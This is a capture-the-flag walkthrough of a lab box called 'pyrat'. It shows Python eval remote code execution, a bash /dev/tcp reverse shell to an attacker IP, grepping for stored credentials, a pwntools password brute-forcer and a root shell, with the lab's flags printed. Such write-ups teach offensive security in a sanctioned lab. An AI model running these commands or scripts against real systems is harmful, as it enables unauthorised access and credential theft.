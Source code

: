 I started with basic enumeration. Nmap showed SSH and an HTTP-alt service on 8000.

```
nmap -p- -sC -sV -oN nmap_initial pyrat.thm

PORT     STATE SERVICE  REASON
22/tcp   open  ssh      syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64
```

Browsing to port 8000 returned: “Try a more basic connection!” That hinted at a raw TCP service. I used netcat and confirmed the server was evaluating Python by sending `print(1+1)` and getting `2`. That gave me RCE.

Listener:

```
nc -lvnp 4444
```

Connect and pop a shell:

```
nc pyrat.thm 8000
__import__('os').system("bash -c 'bash -i >& /dev/tcp/<MY_IP>/4444 0>&1'")
```

I landed as `www-data` with limited access. I enumerated typical dev paths and found a local Git repo.

```
ls -al /opt
cd /opt/dev
ls -al
find /opt -maxdepth 3 -type d -name ".git" 2>/dev/null
```

Credential hunting paid off immediately:

```
grep -RniE 'pass|user|cred|token' /opt /var/www 2>/dev/null | head -50
```

Relevant hits:

```
/opt/dev/.git/config:14:     username = think
/opt/dev/.git/config:15:     password = _TH1NKINGPirate$_
```

I used those to log in as the `think` user and grabbed the user flag.

> 996bdb1f619a68361417cabca5454705

Privilege escalation came from the same repo. Running Git inside `.git` failed because it’s not a work tree:

```
think@box:/opt/dev/.git$ git status
fatal: this operation must be run in a work tree
```

So I worked from the project root:

```
cd /opt/dev
git status
```

Output showed a deleted file:

```
deleted:    pyrat.py.old
```

I restored it and inspected the code:

```
git restore pyrat.py.old
cat pyrat.py.old
```

The server is a Python socket listener that switches on received strings. Two key observations:

1. There’s an `admin` flow that checks a password. If validated, it avoids the privilege drop and allows `shell` to execute as root.
2. Otherwise, it downgrades privileges and runs `exec_python(...)` on user input (the behavior I used for initial RCE).

I wrote a simple pwntools brute-forcer to try passwords against the `admin` path. The flow is: connect → send `admin` → wait for `Password:` → try candidates until success.

```
from pwn import *

host = "pyrat.thm"
port = 8000
password_file = "/usr/share/wordlists/rockyou.txt"

def connect_to_service():
    return remote(host, port)

def attempt_password(password):
    conn = connect_to_service()
    conn.sendline(b"admin")
    conn.recvuntil(b"Password:")
    conn.sendline(password.encode())
    r1 = conn.recvline(timeout=2) or b""
    r2 = conn.recvline(timeout=2) or b""
    resp = r1 + r2
    ok = b"Welcome" in resp or b"Success" in resp
    conn.close()
    return ok

def fuzz_passwords():
    with open(password_file, "r", encoding="latin-1") as f:
        for pw in f:
            pw = pw.strip()
            if attempt_password(pw):
                print(f"[+] Found working password: {pw}")
                break

if __name__ == "__main__":
    fuzz_passwords()
```

The script identified:

```
[+] Found working password: abc123
```

With the admin password, I used netcat directly, authenticated, and asked for a shell. Because the admin path doesn’t drop privileges, I was dropped into a root shell.

```
nc pyrat.thm 8000
admin
Password:
abc123
Welcome Admin!!! Type "shell" to begin
shell
# id
uid=0(root) gid=0(root) groups=0(root)
# ls
pyrat.py  root.txt  snap
# cat root.txt
```

> ba5ed03e9e74bb98054438480165e221

